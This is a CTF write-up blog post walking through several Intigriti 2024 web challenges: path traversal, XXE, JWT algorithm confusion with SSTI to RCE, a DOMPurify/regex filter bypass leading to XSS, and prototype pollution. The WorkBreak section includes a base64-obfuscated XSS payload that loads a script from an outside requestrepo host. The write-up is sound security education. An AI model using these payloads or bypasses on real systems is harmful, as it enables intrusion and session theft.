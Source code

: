```yaml
---
layout: post
title:  "2024 Intigriti CTF, some Web solution"
date:  2024-11-20 10:31:06 +0800
categories: ctf
---
```


## Pizza Paradise, 100p, 395 solves

1. Find `robots.txt` in host page, `https://pizzaparadise.ctf.intigriti.io/robots.txt`

    ```
    User-agent: *
    Disallow: /secret_172346606e1d24062e891d537e917a90.html
    Disallow: /assets/
    ```
2. Open secret login page, find admin username and password hash in client js. `https://pizzaparadise.ctf.intigriti.io/assets/js/auth.js`

    ```
    const validUsername = "agent_1337";
    const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";
    ```
3. Crack sha256 using online tools [https://passwordrecovery.io/sha256/](https://passwordrecovery.io/sha256/). And get password `intel420`

4. Login with valid username and password. After login using image download path traversal to leak php file, there is flag!

## BioCorp, 100p, 389 solves

1. Simple XXE to read flag, too simple


## Cat Club, 100p, 130 solves

1. JWT algorithm confusion attack, [portswigger lab](https://portswigger.net/web-security/jwt/algorithm-confusion/lab-jwt-authentication-bypass-via-algorithm-confusion). Using jwt attack to change username.

2. The changed username is injected to pug template, so just change username to [SSTI payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs) to RCE to read the flag.txt.

## SafeNotes 2.0, 218p, 43 solves

1. Users can create note with html but sanitized by Dompurify. But in `logNoteAccess` function, `const currentUsername = document.getElementById("username").innerText;` is vulnerable to read our payload, so `username` can be controled.

    ```
    function logNoteAccess(noteId, content) {
            // Read the current username, maybe we need to ban them?
            const currentUsername = document.getElementById("username").innerText;
            const username = currentUsername || urlParams.get("name");

            // Just in case, it seems like people can do anything with the client-side!!
            const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

            fetch("/api/notes/log/" + sanitizedUsername, {
                method: "POST",
                headers: {
                    "Content-Type": "application/json",
                    "X-CSRFToken": csrf_token,
                },
                body: JSON.stringify({
                    name: username,
                    note_id: noteId,
                    content: content
                }),
            })
                .then(response => response.json())
                .then(data => {
                    // Does the log entry data look OK?
                    document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                    document.getElementById("debug-content-section").style.display = "block";
                })
                .catch(error => console.error("Logging failed:", error));

        }
    ```
2. Bypass regex filter: `const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');
`. Using `....//` to bypass filter, so we can get `../`. Therefore, using client side path traversal, we made fetch to another api which will return our manipulated username. `fetch("/api/notes/log/" + sanitizedUsername) =>fetch("/contact")`.

3. XSS sink, create div with id `debug-content`. and the data is containing our xss payload.

    ```
    document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
    ```

## WorkBreak, 400p, 26 solve

1. Post payload using api `https://workbreak-0.ctf.intigriti.io/api/user/settings`:

    ```
    {"name":"Anon","phone":"","position":"","__proto__":{"tasks":[{"date":"2024-11-20","tasksCompleted":"<img src=x onerror=eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwpzY3JpcHQuc3JjID0gImh0dHBzOi8vY2VoZTcwMTAucmVxdWVzdHJlcG8uY29tIjsKZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))>"}]}}
    ```
2. Client side prototype pollution, in client side, profile will read our data above, noting that `__proto__` is read, chain with `Object.assign` we can pollute the `userSettings` object, so this object is containing `tasks` field now.

    ```
    const userSettings = Object.assign(
                    { name: "", phone: "", position: "" },
                    profileData.assignedInfo
                );
    ```
3. Due to insecure iframe postmessage, we can send xss payload to iframe. Also, the xss in iframe will send xss payload back to parent, triggering parent xss.